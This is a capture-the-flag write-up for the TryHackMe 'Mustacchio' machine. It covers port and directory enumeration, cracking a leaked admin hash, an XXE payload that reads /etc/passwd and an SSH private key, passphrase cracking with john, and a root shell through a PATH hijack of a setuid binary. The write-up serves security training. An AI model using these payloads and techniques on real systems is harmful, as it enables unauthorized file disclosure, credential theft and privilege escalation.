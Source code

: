 ```yaml
---
title: "Mustacchio"
date: 2025-01-22
image: /assets/img/tryhackme/Mustacchio/Mustacchio_image.jpg
description: Writeup of the TryHackMe-CTF Mustacchio
categories: [Tryhackme, Easy]
tags: [linux, enumeration, revshell, web, privesc, xxe]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Mustacchio</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Easy boot2root Machine</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/mustacchio">https://tryhackme.com/r/room/mustacchio</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Mustacchio.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.114.250
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 05:42 EST
Nmap scan report for 10.10.114.250
Host is up (0.037s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8765/tcp open  ultraseek-http

Nmap done: 1 IP address (1 host up) scanned in 118.78 seconds
```
and enumerated the services nmap found in more depth using the `-A` flag:
```bash
$ nmap -A -p 22,80,8765 10.10.114.250
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 05:45 EST
Nmap scan report for 10.10.114.250
Host is up (0.036s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Mustacchio | Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.56 seconds
```
from here I analyzed the services one after another.

## HTTP Analysis
As we can see in the nmap output there is a robots.txt file, but didn't reveal anything useful. Therfore I started a `gobuster` directory enumeration:
```bash
$ gobuster dir --url http://10.10.114.250/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,bak,txt,sh
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.114.250/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,bak,txt,sh
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 1752]
/images               (Status: 301) [Size: 315] [--> http://10.10.114.250/images/]
/contact.html         (Status: 200) [Size: 1450]
/about.html           (Status: 200) [Size: 3152]
/blog.html            (Status: 200) [Size: 3172]
/gallery.html         (Status: 200) [Size: 1950]
/custom               (Status: 301) [Size: 315] [--> http://10.10.114.250/custom/]
/robots.txt           (Status: 200) [Size: 28]
/fonts                (Status: 301) [Size: 314] [--> http://10.10.114.250/fonts/]
```
While gobuster was running I performed some manual enumeration but didn't found anything interesting. Therefore I waited for the scan and started analyzing the results.
### /custom directory

The directoy had file browsing available so I found the file `/custom/js/user.bak`. I downloaded it and see what we get from it:
```bash
$ file user.bak
users.bak: SQLite 3.x database, last written using SQLite version 3034001, file counter 2, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 2
```
With `SQLiteBrowser` I was able to check the entries in the database. I found just one table called `users` with one entry. The entry provided the username admin and a hash value. I tried to get more information about this hash value:
```bash
$ hashid 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
Analyzing '1868e36a6d2b17d4c2745f1659433a54d4bc5f4b'
[+] SHA-1
[+] Double SHA-1
[+] RIPEMD-160
[+] Haval-160
[+] Tiger-160
[+] HAS-160
[+] LinkedIn
[+] Skein-256(160)
[+] Skein-512(160)
```
SHA1 hashes can be found in the <a href="https://crackstation.net/">CrackStation</a> database, so I gave it try: 
![CrackStaion result](/assets/img/tryhackme/Mustacchio/thm_mustacchio_1.jpg){: width="1014" height="86" .w-75 .normal}

The other directories didn't provide anything useful so I moved on.

## Port 8765 Analysis
The server provided another website with a login form under port 8765. 
![Admin Login](/assets/img/tryhackme/Mustacchio/thm_mustacchio_2.jpg){: width="332" height="350" .w-75 .normal}

I tried the credentials for the user admin I got in the previous step and was able to login. Always start with source code analysis, which reveal me the following comment:
```html
<!-- Barry, you can now SSH in using your key!-->
```

The website had a textfeld and a headline which said `"Add a comment on the website."`. After some tests I got the following error message:

![XML Comment Textfield](/assets/img/tryhackme/Mustacchio/thm_mustacchio_3.jpg){: width="581" height="493" .w-75 .normal}

XML always sounds like XXE so I tried the following payload...
```text
<!DOCTYPE people[
   <!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
   <name>&thmFile;</name>
   <author></author>
   <comment>glitch@wareville.com</comment>
</people>
```
... and had success:

![XML Comment Textfield](/assets/img/tryhackme/Mustacchio/thm_mustacchio_4.jpg){: width="2578" height="787"}

With the comment about Barry's ssh key could be found somewhere I tried to look for it:

![XML Comment Textfield](/assets/img/tryhackme/Mustacchio/thm_mustacchio_5.jpg){: width="2578" height="787"}

That must be Barry's ssh key so I downloaded it and prepared it to use it. First extract the hash using `ssh2john` to crack the password we need for the connection:
```bash
$ ssh2john id_rsa > hashes
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[removed]       (id_rsa)
1g 0:00:00:00 DONE (2025-01-22 05:58) 2.127g/s 6320Kp/s 6320Kc/s 6320KC/s urieljr.k..urielandrea
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Now where I had the password I was able to connect via ssh and read the user flag:

```bash
$ chmod 600 id_rsa
$ ssh -i id_rsa barry@10.10.114.250
barry@mustacchio:~$ hostname
mustacchio
barry@mustacchio:~$ cat user.txt
[*** removed ***]
```
## Privilege Esclation
While searching a way to escalate my privileges I found an intersting binary:
```bash
barry@mustacchio:/home/joe$ ls
live_log
barry@mustacchio:/home/joe$ file live_log
live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6c03a68094c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped
```

The file `live_log` just prints out the current webserver `access.log`. With the commandline utility `strings` I was able to get more insights:
```bash
barry@mustacchio:/home/joe$ strings live_log
[*** removed for readability ***]
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
[*** removed for readability ***]
```
Intersting is that `tail` didn't use an absolute path what we can missuse. I created a file called `tail` in barrys home directory (`/home/barry`) and inserted the following code:
```python
!/usr/bin/python3
import pty
pty.spawn("/bin/bash")
```
Making the new `tail` an executable, modify our path variable and finally execute the `live_log` gave me root access: 

```bash
barry@mustacchio:~$ chmod +x tail
barry@mustacchio:~$ export PATH=$PWD:$PATH
barry@mustacchio:~$ ../joe/live_log
root@mustacchio:~# whoami
root
root@mustacchio:~# cd /root
root@mustacchio:/root# cat root.txt
[*** removed ***]
```

solved! :)

